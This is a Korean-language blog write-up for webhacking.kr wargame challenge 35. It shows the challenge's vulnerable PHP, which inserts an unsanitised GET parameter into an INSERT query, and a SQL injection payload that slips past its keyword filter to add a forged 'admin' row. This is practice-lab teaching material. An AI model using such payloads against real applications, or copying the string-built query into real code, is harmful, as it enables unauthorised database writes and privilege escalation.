 ```yaml
---
title: "[webhacking.kr] 35번 문제 풀이[SQL Injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "35번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 35번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152671255-d268cde5-a1e3-454c-bfd2-c0a68537c9d4.png)

  ```php
  <?php
  $db = dbconnect();
  if($_GET['phone'] && $_GET['id']){
    if(preg_match("/\*|\/|=|select|-|#|;/i",$_GET['phone'])) exit("no hack");
    if(strlen($_GET['id']) > 5) exit("no hack");
    if(preg_match("/admin/i",$_GET['id'])) exit("you are not admin");
    mysqli_query($db,"insert into chall35(id,ip,phone) values('{$_GET['id']}','{$_SERVER['REMOTE_ADDR']}',{$_GET['phone']})") or die("query error");
    echo "Done<br>";
  }

  $isAdmin = mysqli_fetch_array(mysqli_query($db,"select ip from chall35 where id='admin' and ip='{$_SERVER['REMOTE_ADDR']}'"));
  if($isAdmin['ip'] == $_SERVER['REMOTE_ADDR']){
    solve(35);
    mysqli_query($db,"delete from chall35");
  }
  ?>
  ```

# 문제 풀이
  >필터링 되는 문자열

  | 1 | 2 | 3 | 4 | 5 | 6 | 7 |
  |:--:|:--:|:--:|:--:|:--:|:--:|:--:|
  |  *  |/|=|select|-|#|;|

  >injection 해야 하는 sql 구문

  ```sql
insert into chall35(id,ip,phone) values('{$_GET['id']}','{$_SERVER['REMOTE_ADDR']}',{$_GET['phone']})
  ```

  문제에서 get 방식으로 id, phone을 받아서 db로 바로 입력을 합니다. id는 길이가 5가 넘으면 안되므로 인젝션을 시도하기 적절하지 않고, phone은 필터링 문자들만 우회하면 인젝션을 시도할 수 있습니다.

  우선 문제를 풀기 위해서는 다음 조건이 되면 풀립니다.
  
  ```php
  $isAdmin = mysqli_fetch_array(mysqli_query($db,"select ip from chall35 where id='admin' and ip='{$_SERVER['REMOTE_ADDR']}'"));
  if($isAdmin['ip'] == $_SERVER['REMOTE_ADDR']){
    solve(35);
  }
  ```

  즉 DB에 나의 IP로 'admin' 아이디가 존재해야 합니다.

  다음과 같이 phone에 쿼리문을 작성하면 됩니다.
  ```python
123),('admin','58.122.121.25',123
  ```

  그러면 서버쪽의 sql 문에서는 다음과 같이 sql 문이 작성됩니다.

  ```sql
  insert into chall35(id,ip,phone) values ('guest','58.122.121.25',123),('admin','58.122.121.25',123)
  ```

  ![image](https://user-images.githubusercontent.com/33647663/152671686-b78de901-653f-46f5-a03e-eb020c93dcf6.png)